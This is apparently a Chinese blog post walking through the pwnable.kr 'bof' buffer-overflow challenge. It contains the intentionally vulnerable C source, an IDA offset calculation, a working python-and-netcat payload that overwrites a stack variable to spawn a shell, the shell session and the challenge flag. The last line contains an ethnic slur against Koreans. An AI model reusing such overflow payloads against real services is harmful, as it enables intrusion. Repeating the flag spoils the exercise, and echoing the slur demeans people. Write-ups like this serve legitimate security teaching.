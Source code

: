 ```yaml
---
id: 35
title: pwnable.kr-bof
date: 2016-07-08T16:39:12+00:00
author: admin
layout: post
guid: http://www.ikow.cn/?p=35
permalink: /pwnable-kr-bof/
categories:
  - pwn
tags:
  - exploit
  - payload
  - pwn
  - pwnable.kr
  - shellcode
---
```

首先还是题目描述：

> Nana told me that buffer overflow is one of the most common software vulnerability.
  
> Is that true?
> 
> Download : http://pwnable.kr/bin/bof
  
> Download : http://pwnable.kr/bin/bof.c
> 
> Running at : nc pwnable.kr 9000

给了c的源文件还有编译好的elf文件，c源码为：

<pre class="brush: cpp; title: ; notranslate" title="">#include &lt;stdio.h&gt;
#include &lt;string.h&gt;
#include &lt;stdlib.h&gt;
void func(int key){
    char overflowme[32];
    printf("overflow me : ");
    gets(overflowme);    // smash me!
    if(key == 0xcafebabe){
        system("/bin/sh");
    }
    else{
        printf("Nah..\n");
    }
}
int main(int argc, char* argv[]){
    func(0xdeadbeef);
    return 0;
}
</pre>

很明显，根据注释，在gets函数的地方进行栈溢出，将key的数值覆盖为0xcafebabe，那么接下来需要计算出key和overflowme的地址差。一开始看到提供的elf文件，我觉得没有用，因为给了c源码，完全可以自己编译。现在知道编译完成后，变量的地址已经相对固定了。我们用IDA打开elf文件，看到key的地址为[bp+8h]，overflowme的地址为[bp-2Ch]，两者相差了8h+2Ch=52，所以我们用52个字符填充就可以了，其后用cafebabe进行填充。最后的payload为：

> (python -c &#8220;print &#8216;a&#8217;*52 + &#8216;\xbe\xba\xfe\xca'&#8221;;cat -) | nc pwnable.kr 9000

直接获取了shell，然后读取flag文件：

> ls -al
  
> total 16512
  
> drwxr-x&#8212;  3 root bof      4096 Sep 10  2014 .
  
> dr-xr-xr-x 66 root root     4096 Jul  1 02:14 ..
  
> d&#8212;&#8212;&#8212;  2 root root     4096 Jun 12  2014 .bash_history
  
> -r-xr-x&#8212;  1 root bof      7348 Jun 11  2014 bof
  
> -rw-r&#8211;r&#8211;  1 root root      310 Jun 11  2014 bof.c
  
> -r&#8211;r&#8212;&#8211;  1 root bof        32 Jun 11  2014 flag
  
> -rw&#8212;&#8212;-  1 root bof  16869264 Jul  8 01:38 log
  
> -rwx&#8212;&#8212;  1 root bof       760 Sep 10  2014 super.pl
  
> cat flag
  
> daddy, I just pwned a buFFer 🙂

最后的flag为daddy, I just pwned a buFFer 🙂   （怎么感觉这个傻逼棒子总是在占我们的便宜）